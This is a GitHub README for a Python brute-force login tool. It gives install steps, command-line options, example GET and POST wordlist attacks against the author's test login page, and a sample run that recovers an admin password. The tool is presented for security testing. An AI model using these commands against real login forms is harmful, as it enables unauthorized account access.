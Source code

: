 # Brute Force Login Tool

![Python Version](https://img.shields.io/badge/Python-3.x-blue) ![License](https://img.shields.io/badge/license-MIT-green)

## Overview

This is a simple Brute Force Login tool written in Python. It is designed to assist in testing the security of login forms or API login endpoints. The tool supports both GET and POST methods for brute force attacks.

## Features

*   **Form Analysis:** Extracts and analyzes HTML form attributes to identify input names for username and password fields, extracts the `type` of a input tag or button tag, also extracts all the required tokens, cookies for a login Session.
*   **Wordlist Attack:** Supports username and password brute force attacks using a provided wordlist file.
*   **GET and POST Methods:** Choose between GET and POST methods based on the target's login mechanism.
*   **Cookie Support:** Optionally provide a cookie value for authentication.
*   **User-friendly Interface:** Provides clear and colored console output for better user interaction.


## Release - PYPI
```
pip install pip install brute-force-attacker
```


### How to Run as command line tool

```
brute -w <wordlist_file> -t <target_url> -m <http_method> [-u <username>] [-c <cookie_value>]
```

*   `-t` or `--target`: Specify the target URL.
*   `-w` or `--wordlist`: Specify the wordlist file.
*   `-m` or `--method`: Specify the HTTP method (get or post).

Optional arguments:

*   `-u` or `--username`: Specify the username for targeted brute force (optional).
*   `-c` or `--cookie`: Specify the cookie value for authentication (optional).

## Usage

### Installation from git repository

```
git clone https://github.com/Praveenms13/Cappricio-Intern-Task.git
```

```
cd Cappricio-Intern-Task
```

### Create a Virtual Environment 
```
python3 -m venv venv
```
### Activate 
```
source venv/bin/activate
```
### Download Necessary packages
```
pip install -r brute/requirements.txt 
```

### How to Run

```
python3 brute.py -w <wordlist_file> -t <target_url> -m <http_method> [-u <username>] [-c <cookie_value>]
```

*   `-t` or `--target`: Specify the target URL.
*   `-w` or `--wordlist`: Specify the wordlist file.
*   `-m` or `--method`: Specify the HTTP method (get or post).

Optional arguments:

*   `-u` or `--username`: Specify the username for targeted brute force (optional).
*   `-c` or `--cookie`: Specify the cookie value for authentication (optional).

## Examples

### Brute Force Login using POST with username
#### Here admin is the username, word1.txt contains all the common passwords (Passwords only)
```
python3 brute.py -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
```
### Brute Force Login using POST without username
#### By the below syntax you can run the brute force attack without usernames as it takes all the common username and password from the file named word2.txt
```
python3 brute.py -w word2.txt -t "https://forms.praveenms.site/login.php" -m POST
```

### Brute Force Login using GET with Username
#### This works on HTTP Get method with username where the username is given and the password is left Blank where it is extracted from the word1.txt
```
python3 brute.py -w word1.txt -t "https://forms.praveenms.site/login.php?username=admin&password=" -m GET
```

### Brute Force Login using GET with Username
#### This works on HTTP Get method without username and password where the username and password is left Blank, it is extracted from the word2.txt
```
python3 brute.py -w word1.txt -t "https://forms.praveenms.site/login.php?username=&password=" -m GET
```

## Sample usage
```
➜  Praveen brute-force git:(main U:1 ✗) 🚀 brute -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
Brute Force Login
Tool By Praveen
Required Login Page URL or API Login URL Endpoint
Leave blank if you don't have, In optional cases
This module is not intended to be imported
[+] Username Provided, Username: admin, Using Username From User Input
[+] Using POST Method

Form Attributes Found:

Form 1 attributes:
  Method: POST
  Action: login.php
  Input types:
    password, text
  Input names:
    username, password
  Input names for username and password fields:
    Username input name: username
    Password input name: password
[+] Using Wordlist: /home/mspraveenkumar77/htdocs/brute-force/word1.txt
-----------------------------------------------
Trying: admin and root ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and admin ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and test ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and guest ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and ansible ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and ec2-user ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and vagrant ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and azureuser ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and !root ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and pass@123 ...
[+] Status Code: 200
[+] Login Successful!
[+] Login Creds: 
[+] Username: admin
[+] password: pass@123
```

## Disclaimer

This tool is intended for educational and testing purposes only. Unauthorized access to systems or networks without permission is illegal.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.